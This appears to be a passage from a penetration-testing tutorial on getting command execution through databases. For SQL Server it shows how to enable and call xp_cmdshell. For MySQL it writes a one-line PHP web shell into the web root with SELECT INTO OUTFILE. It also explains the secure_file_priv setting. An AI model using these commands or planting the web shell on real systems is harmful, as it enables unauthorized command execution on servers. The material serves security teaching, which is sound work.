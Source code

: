 - xp_cmdshell is a powerful feature and disabled by default. xp_cmdshell can be enabled and disabled by using the Policy-Based Management or by executing sp_configure
- The Windows process spawned by xp_cmdshell has the same security rights as the SQL Server service account
- xp_cmdshell operates synchronously. Control is not returned to the caller until the command-shell command is completed

```
1> xp_cmdshell 'whoami'
2> GO
```

If xp_cmdshell is not enabled, we can enable it, if we have the appropriate privileges, using the following command:

```
-- To allow advanced options to be changed.  
EXECUTE sp_configure 'show advanced options', 1
GO

-- To update the currently configured value for advanced options.  
RECONFIGURE
GO  

-- To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1
GO  

-- To update the currently configured value for this feature.  
RECONFIGURE
GO
```

# Write Local Files

## MySQL

MySQL does not have a stored procedure like xp_cmdshell, but we can achieve command execution if we write to a location in the file system that can execute our commands. For example, suppose MySQL operates on a PHP-based web server or other programming languages like ASP.NET. If we have the appropriate privileges, we can attempt to write a file using SELECT INTO OUTFILE in the webserver directory. Then we can browse to the location where the file is and execute our commands.

```
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```

secure_file_priv may be set as follows:

- If empty, the variable has no effect, which is not a secure setting.
- If set to the name of a directory, the server limits import and export operations to work only with files in that directory. The directory must exist; the server does not create it.
- If set to NULL, the server disables import and export operations.
